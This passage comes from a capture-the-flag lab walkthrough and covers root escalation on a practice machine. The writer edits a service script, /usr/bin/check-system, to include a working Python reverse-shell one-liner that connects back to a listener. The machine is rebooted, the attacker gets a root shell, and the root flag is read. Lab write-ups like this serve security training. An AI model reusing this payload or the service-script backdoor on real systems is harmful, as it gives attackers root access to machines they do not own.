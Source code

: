 Let's modify the script to include a reverse shell in the middle of the loop:

~~~
$ cat > /usr/bin/check-system << EOF
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
	echo "Checking...";
	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.222.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	sleep 1;
done
EOF
~~~

Now, let's start a listener locally (`rlwrap nc -nlvp 4444`) and restart the target machine:

~~~
$ sudo shutdown -r
~~~

We now have a reverse shell spawned to our listener window:

~~~
kali@kali:/data/Tre_1/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.149] 33032
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
~~~

# Root flag

Let's get the root flag:

~~~
# cd /root
# ls -la
total 24
drwx------  3 root root 4096 May 12 23:59 .
drwxr-xr-x 18 root root 4096 May 11 23:57 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 May 12 00:15 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   27 May 12 03:58 root.txt
# cat root.txt
{SunCSR_Tr3_Viet_Nam_2020}
~~~
